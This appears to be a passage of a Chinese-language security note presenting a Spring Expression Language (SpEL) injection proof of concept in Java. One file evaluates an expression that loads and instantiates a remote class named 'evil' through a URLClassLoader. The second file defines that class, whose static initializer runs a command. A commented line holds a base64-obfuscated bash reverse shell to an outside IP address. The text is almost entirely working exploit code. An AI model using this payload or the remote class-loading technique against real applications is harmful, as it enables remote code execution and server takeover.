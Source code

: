 然后那个getconstructors其实也没必要那么写

```java
package com.example.vul;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;

import java.lang.reflect.InvocationTargetException;
import java.net.MalformedURLException;
import java.net.URL;
import java.net.URLClassLoader;

public class SpelVulTest {
    public static void main(String[] args) throws MalformedURLException, ClassNotFoundException, InvocationTargetException, InstantiationException, IllegalAccessException {
        String cmdStr = "new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL('http://127.0.0.1:8888/')}).loadClass(\"evil\").newInstance()";
        ExpressionParser parser = new SpelExpressionParser();//创建解析器
        Expression exp = parser.parseExpression(cmdStr);//解析表达式
        System.out.println( exp.getValue() );//弹出计算器
    }
}

```

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class evil extends AbstractTranslet {
    static {
        try {
            //Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMTQuMTE2LjExOS4yNTMvNzc3NyAwPiYx}|{base64,-d}|{bash,-i}");
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }

    }

    public static void main(String[] args) {

    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}

```

